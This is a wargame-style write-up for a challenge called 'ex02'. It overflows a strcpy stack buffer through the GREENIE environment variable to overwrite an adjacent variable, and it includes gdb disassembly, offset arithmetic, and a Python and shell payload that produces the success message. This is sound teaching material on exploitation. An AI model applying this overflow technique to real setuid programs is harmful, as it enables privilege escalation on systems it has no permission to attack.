

## ex02

### Objective
The goal of this challenge is to modify a specific variable in the binary and see the message "you have correctly modified the variable".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=05192c075e2384bc94402b41f639965cc9fb9c87, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    strcpy
    puts
    printf
    getenv
    errx
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVhd
    D$\=dcbau
    [^_]
    please set the GREENIE environment variable
    you have correctly modified the variable
    Try again, you got 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `getenv` and `strcpy` function calls, which are used to get the `GREENIE` environment variable and copy its value into a buffer.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048494 <+0>:     push   %ebp
       0x08048495 <+1>:     mov    %esp,%ebp
       0x08048497 <+3>:     and    $0xfffffff0,%esp
       0x0804849a <+6>:     sub    $0x60,%esp
    => 0x0804849d <+9>:     int3   
       0x0804849e <+10>:    add    $0x24,%al
       0x080484a0 <+12>:    loopne 0x8048427 <__do_global_dtors_aux+23>
       0x080484a2 <+14>:    add    $0x8,%al
       0x080484a4 <+16>:    call   0x804837c <getenv@plt>
       0x080484a9 <+21>:    mov    %eax,0x5c(%esp)
       0x080484ad <+25>:    cmpl   $0x0,0x5c(%esp)
       0x080484b2 <+30>:    jne    0x80484c8 <main+52>
       0x080484b4 <+32>:    movl   $0x80485e8,0x4(%esp)
       0x080484bc <+40>:    movl   $0x1,(%esp)
       0x080484c3 <+47>:    call   0x80483bc <errx@plt>
       0x080484c8 <+52>:    movl   $0x0,0x58(%esp)
       0x080484d0 <+60>:    mov    0x5c(%esp),%eax
       0x080484d4 <+64>:    mov    %eax,0x4(%esp)
       0x080484d8 <+68>:    lea    0x18(%esp),%eax
       0x080484dc <+72>:    mov    %eax,(%esp)
       0x080484df <+75>:    call   0x804839c <strcpy@plt>
       0x080484e4 <+80>:    mov    0x58(%esp),%eax
       0x080484e8 <+84>:    cmp    $0xd0a0d0a,%eax
       0x080484ed <+89>:    jne    0x80484fd <main+105>
       0x080484ef <+91>:    movl   $0x8048618,(%esp)
       0x080484f6 <+98>:    call   0x80483cc <puts@plt>
       0x080484fb <+103>:   jmp    0x8048512 <main+126>
       0x080484fd <+105>:   mov    0x58(%esp),%edx
       0x08048501 <+109>:   mov    $0x8048641,%eax
       0x08048506 <+114>:   mov    %edx,0x4(%esp)
       0x0804850a <+118>:   mov    %eax,(%esp)
       0x0804850d <+121>:   call   0x80483ac <printf@plt>
       0x08048512 <+126>:   leave  
       0x08048513 <+127>:   ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `getenv` function is called at offset `+16` to retrieve the `GREENIE` environment variable.
      - The value retrieved by `getenv` is stored at `0x5c(%esp)`.
      - The `strcpy` function is called at offset `+75`, which copies the content of `GREENIE` into a buffer starting at `0x18(%esp)`.
      - There is a comparison at offset `+84` to check if a specific value (`0xd0a0d0a`) is present in the variable located at `0x58(%esp)`.

3. **Determine Buffer Size and Offset**:
    - The destination buffer for `strcpy` starts at `0x18(%esp)`.
    - The target value to set is located at `0x58(%esp)`.
    - The offset from the start of the buffer to the target value is `0x58 - 0x18 = 0x40` (64 bytes).

4. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the target variable.

    ```python
    import struct
    import base64

    buffer_size = 64  # 0x40 in hex
    target_value = 0xd0a0d0a  # Correct little-endian representation of 0xd0a0d0a

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_value)

    # Encode the payload in base64
    encoded_payload = base64.b64encode(payload).decode('ascii')
    print(encoded_payload)
    ```

5. **Execute the Binary with the Payload**:
    - We used the following commands to set the `GREENIE` environment variable with the crafted payload and run the binary.

    ```sh
    # Generate the payload and print it
    python -c 'import struct, base64; buffer_size = 64; target_value = 0xd0a0d0a; payload = b"A" * buffer_size + struct.pack("<I", target_value); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)'

    # Set the environment variable using the copied output
    export GREENIE=$(echo QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQoNCg0= | base64 --decode)

    # Run the binary
    ./bin
    ```

### Difficulties Encountered

- **Initial Payload Encoding Issue**:
    - Initially, we encountered a `UnicodeEncodeError` because the terminal was not handling non-ASCII characters properly when trying to directly set the environment variable.
    - To overcome this, we used base64 encoding to safely transfer the payload as an environment variable and then decoded it in the environment variable.

- **Endian Representation**:
    - Another difficulty was ensuring the correct little-endian representation of the target value (`0xd0a0d0a`). Understanding the endianness was crucial to placing the correct value at the desired location in memory.

### How We Knew to Use and Build These Payloads

- **Understanding Buffer Overflow**:
    - From our knowledge of buffer overflow vulnerabilities, we knew that the `strcpy` function can be exploited if it copies more data than the destination buffer can hold.
    - By examining the disassembly, we identified the buffer size and the specific value that needed to be set.

- **Using `gdb` for Analysis**:
    - By using `gdb`, we could disassemble the binary, set breakpoints, and inspect the memory layout.
    - This allowed us to calculate the correct offset from the buffer to the target variable.

- **Payload Construction**:
    - We used Python to construct the payload, ensuring it filled the buffer and placed the correct target value at the precise location.
    - Base64 encoding was used to handle the transfer of the payload safely as an environment variable.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    you have correctly modified the variable
    ```


### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
import base64

buffer_size = 64  # 0x40 in hex
target_value = 0xd0a0d0a  # Correct little-endian representation of 0xd0a0d0a

payload = b'A' * buffer_size
payload += struct.pack("<I", target_value)
```

# Encode the payload in base64
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)
